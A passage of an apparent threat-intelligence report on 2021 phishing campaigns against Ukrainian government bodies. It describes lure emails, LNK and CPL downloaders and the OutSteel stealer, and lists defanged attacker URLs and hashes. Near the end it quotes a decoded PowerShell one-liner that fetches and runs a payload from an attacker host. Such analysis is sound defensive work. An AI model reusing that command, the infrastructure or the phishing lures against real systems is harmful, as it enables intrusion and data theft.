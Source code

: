 The PDF document attached to the delivery email contains text that suggests the individual can access a Bitcoin wallet with a large sum of money along with a link to download the wallet, as seen in Figure 24. The link cutt[.]ly/McXG1ft is shortened and points to the URL http://1924[.]site/doc/bitcoin.zip to download a Zip archive.
Figure 24. Contents of PDF documents used in Bitcoin-themed attacks.
The Zip archive contains a LNK shortcut that runs a powershell script to download and execute a payload from hxxp://1924[.]site/soft/09042021.exe. The archive also contains a password.txt file that has the following contents, which involve an Electrum Bitcoin wallet that links back to the attacks against Ukraine on Feb. 1, 2022:
Wallet in folder.
Electrum: https://electrum.org
Password for walletr is: btc1000000000usd
According to Fortinet research, in April 2021, this threat group also carried out COVID-themed attacks on Ukrainian government organizations. The email seen in Figure 25 includes a fake forwarded message meant to appear as correspondence between a government official and the World Health Organization (WHO). The email contains a link to a Zip archive hosted on the legitimate who.int domain. However, the link points to a shortened link of hxxps://cutt[.]ly/LcHx2Ga instead.
Figure 25. Delivery email in COVID-themed attacks.
The hxxps://cutt[.]ly/LcHx2Ga URL points to hxxp://2330[.]site/NewCovid-21.zip, which hosted a Zip archive (SHA256: 677500881c64f4789025f46f3d0e853c00f2f41216eb2f2aaa1a6c59884b04cc) that contained the following files:
COVID-21.doc (SHA256: 9803e65afa5b8eef0b6f7ced42ebd15f979889b791b8eadfc98e7f102853451a)
COVID-21.lnk (SHA256: 2b15ade9de6fb993149f27c802bb5bc95ad3fc1ca5f2e86622a044cf3541a70d)
GEO-CFUND-2009_CCM Agreement_Facesheet - signed.pdf (SHA256: bbab12dc486b1c6fcf9e343ec1474d0f8967de988444d7f838f1b4dcab343e8a)
New Folder.lnk (SHA256: 2b15ade9de6fb993149f27c802bb5bc95ad3fc1ca5f2e86622a044cf3541a70d)
The LNK shortcuts attempt to run a PowerShell script that will download an executable from the following URL, save it to %TEMP%\WindowsUpdate.exe and execute it:
hxxp://2330[.]site/soft/08042021.exe
The LNK shortcut downloads the executable from the URL above using the Start-BitsTransfer cmdlet, which is the same technique the threat group used to download the payload within the macro in the July 2021 attacks discussed below.
May 2021 Attacks
In May 2021, we saw the threat group sending targeted emails sent to two Ukrainian government organizations. The two emails had subjects of Заява №4872823 and Заява №487223/2, and both had the same message content that suggested the email was from a senior investigator trying to contact the individual, as seen in Figure 26. The use of law enforcement related themes across May and June 2021, as well as in February 2022, suggests that the threat group favors this social engineering theme in the absence of a trending topic or current event.
Figure 26. Spear phishing email sent to Ukrainian government organizations in May 2021.
Both of the delivery emails had the same attachment, specifically Заява №4872823-(20).cpl (SHA256: f4a56c86e2903d509ede20609182fbe001b3a3ca05f8c23c597189935d4f71b8), which is a Windows Control Panel File that acts as an initial downloader to download and execute a payload from:
32689657[.]xyz/putty5482.exe
The Control Panel File saves the downloaded executable to %PUBLIC%\puttys.exe and runs it using the WinExec function. The resulting executable (SHA256: df3b1ad5445d628c24c1308aa6cb476bd9a06f0095a2b285927964339866b2c3) eventually runs the OutSteel document stealer, which will exfiltrate files to the following URL:
hxxp://194[.]147.142.232/upld/
June 2021 Attacks
In June 2021, we observed this threat group targeting another Ukrainian government organization by sending a spear phishing email with a subject that translates to “Your arrest warrant” from Ukrainian. The content of this email, seen in Figure 27, includes urgent language suggesting that the recipient must read the attached report or they will be declared “wanted.” This law enforcement theme relates to the Feb. 1, 2022, attacks that used a supposed police report as part of social engineering.
Figure 27. Spear phishing email sent to Ukrainian government organization in June 2021.
The attachment is not a report as the body of the email suggests. Rather, the Заява №487223-31.doc (880m5) .js file attached is a JavaScript file that is 1,029,786 bytes in size (the actors added a considerable amount of spaces between each character of the JavaScript code). If the recipient opens the attachment, the following JavaScript will execute:
Figure 28. Malicious JavaScript contained in attached file.
The JavaScript above will run an encoded PowerShell script that decodes to the following:
invOKe-WeBREqUEST -urI hxxp://150520212[.]space/000.cpl -oUtFILE $ENv:PuBLiC\000.cpl; & $eNV:PUBlIc\000.cpl